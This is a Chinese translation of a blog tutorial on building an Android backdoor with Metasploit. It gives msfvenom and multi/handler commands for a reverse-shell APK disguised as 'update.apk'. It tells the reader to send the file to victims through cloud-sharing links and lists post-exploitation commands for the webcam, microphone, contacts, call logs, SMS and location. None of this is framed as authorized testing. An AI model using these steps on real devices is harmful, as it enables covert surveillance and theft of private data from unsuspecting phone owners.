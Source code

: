# 在 android 手机上创建一个基本后门

> 原文：<https://infosecwriteups.com/creating-a-basic-backdoor-on-an-android-mobile-66bb58fc7507?source=collection_archive---------0----------------------->

![](img/f2cb590bffa364bbcdac35c11bca8f16.png)

图像[来源](https://nypost.com/2022/04/30/signs-your-iphone-or-android-is-infected-by-dangerous-hackers/)

在本文中，您将学习使用 Metasploit 框架破解 android 手机的最基本方法。

注意:您可以在局域网和广域网中这样做

# **#1。为 android 创建一个反向 TCP 外壳**

这是你创建的恶意软件文件来后门的机器人

用您的主机 IP 地址替换“LHOST”。

通过在终端上执行“ip a”命令来查看您的 IP。

你甚至可以在这里使用你的公共 IP。

使用你的公共 IP 可以让你黑掉网络外的任何手机。

这意味着你可以给世界上任何一部“安卓手机”开后门。

注意:要使用公共 IP，您的主机应该在路由器上启用端口转发。

-p =有效载荷。

```
msfvenom -p android/meterpreter/reverse_tcp LHOST= 192.168.1.7 LPORT=4444 R > /root/update.apk
```

![](img/1f39d8326b7ada64b267e269c406ebee.png)

图 1

# #2.启动 Metasploit 框架

在新终端中启动 Metasploit 框架

```
msfconsole
```

![](img/e045ebf4f5608e27e6c9d1f22007b723.png)

图 2

# #3.启动多功能处理器

您需要启动多处理程序漏洞来创建监听器。

> **我们为什么要放这个多处理器？**
> 
> 这是为了当你在受害者的手机(在框架之外)中执行后门程序时，你需要重新连接以取得控制权。

多处理器漏洞利用；

*   可用于攻击多台主机
*   与许多有效载荷兼容
*   也是一名听众

```
msf6 > use exploit/multi/handler
```

![](img/6198c9ffb47d3784946608832042f7dd.png)

图 3

# #4.设置多处理器的有效负载

设置多重处理程序的有效负载，以便从其接收外壳

我们在这里设置我们在步骤#1 中创建的相同负载

```
msf6 exploit(multi/handler) > set payload android/meterpreter/reverse_tcp
```

![](img/9bb761eb166d7abc1ff79d18c3633766.png)

图 4

# #5.设置主机地址

你需要设置你的攻击机器的 IP 来重新获得你的机器的外壳

```
msf6 exploit(multi/handler) > set LHOST 192.168.1.7
```

![](img/bb6fd788c8e29ea203931e577d0b6de1.png)

图 5

# #6.设置端口

设置主机的监听端口，在本例中，我将端口设置为 4444。

```
msf6 exploit(multi/handler) > set LPORT 4444
```

![](img/5933a9a90ab02c9f3a55c4095d54133a.png)

图 6

# #7.开始利用

现在，您可以通过执行“exploit”命令来启动监听器。

```
msf6 exploit(multi/handler) > exploit
```

![](img/b41203437c417740dbfa4059710c18b6.png)

图 7

# #8.安装后门

在受害者的手机上安装您在步骤 1 中创建的恶意软件后门。

你可以将恶意软件文件上传到 dropbox 或 [zippyshare](https://www.zippyshare.com/) 这样的云服务中，并将链接发送给受害者。

当受害者安装“update.apk”时

喔派。！

就这么简单！！

![](img/75ff9a28c0d053c883bad9b9127eebbb.png)

图 8

您将得到如图 8 所示的 meterpreter 提示符！！

# #9.后期开发

下面是一些利用漏洞后的命令，供您在得到 meterpreter 提示符后尝试。

*   sysinfo
*   网络摄像机 _ 列表
*   网络摄像头 _ 快照
*   录音 _ 麦克风
*   活动 _ 开始
*   检查 _ 根
*   转储 _ 调用日志
*   转储 _ 联系人
*   地理定位
*   wlan _ 地理位置
*   发送 _ 短信
*   sms_dump

# #10.参考

*   [https://gist . github . com/mataprasad/c5dd 39154 a 852 CDC 67 ff 7958 e0a 82699](https://gist.github.com/mataprasad/c5dd39154a852cdc67ff7958e0a82699)
*   [https://www . hackers-rise . com/post/2018/07/06/metasploit-basics-part-13-exploining-Android-mobile-devices](https://www.hackers-arise.com/post/2018/07/06/metasploit-basics-part-13-exploiting-android-mobile-devices)
*   [https://irfaanshakeel . medium . com/hacking-Android-phone-remote-using-metasploit-43 CCF 0 FBE 9 b 8](https://irfaanshakeel.medium.com/hacking-android-phone-remotely-using-metasploit-43ccf0fbe9b8)
*   [https://www . hacker academy . org/how-to-exploit-Android-phones-with-metasploit-and-MSF venom/](https://www.hackeracademy.org/how-to-exploit-android-phones-with-metasploit-and-msfvenom/)

关注我可以看到更多类似这样的内容！

在 YouTube 上找到我；[https://www.youtube.com/channel/UCo3VR-oBTt8PPbvu64D_k0g](https://www.youtube.com/channel/UCo3VR-oBTt8PPbvu64D_k0g)

喜欢这篇文章就留下一两个掌声吧！